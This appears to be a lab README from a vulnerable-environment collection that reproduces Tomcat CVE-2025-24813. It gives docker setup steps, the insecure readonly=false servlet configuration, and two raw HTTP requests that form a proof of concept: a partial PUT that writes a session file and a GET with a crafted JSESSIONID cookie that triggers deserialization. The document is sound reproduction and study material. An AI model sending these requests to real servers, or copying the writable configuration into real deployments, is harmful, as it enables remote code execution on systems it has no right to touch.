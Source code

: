 # Tomcat Remote Code Execute (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md)

Tomcat version: 9.0.97

## Environment Setup

```
docker compose build
docker compose up -d
```

After successfully running the commands above, you will see the example page of Tomcat through visiting the site `http://your-ip:8080`.

## Rationale

Reference links:

- https://forum.butian.net/article/674

Due to the configuration of Tomcat being writable (readonly=false) and the file storage for sessions, with their default storage path both set to $CATALINA_BASE/work/Catalina/localhost/ROOT, it allows us to write files to the server. Furthermore, by specifying the JSESSIONID, we can trigger deserialization of the files we have written.

```
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Partial PUT request is used to upload a file, the path separators (/) in the file path are converted to periods (.) and temporarily stored in $CATALINA_BASE/work/Catalina/localhost/ROOT.

## POC

By Content-Range request header to craft an partial PUT request, the following data packet can be sent to cause Tomcat to write a file named .deserialize.session in the temporary directory:

```
PUT /deserialize/session HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 1000
Content-Range: bytes 0-1000/1200

deserialize content
```

Send the following data packet to trigger deserialization:

```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.deserialize
```

As follows:

![](01.jpg)
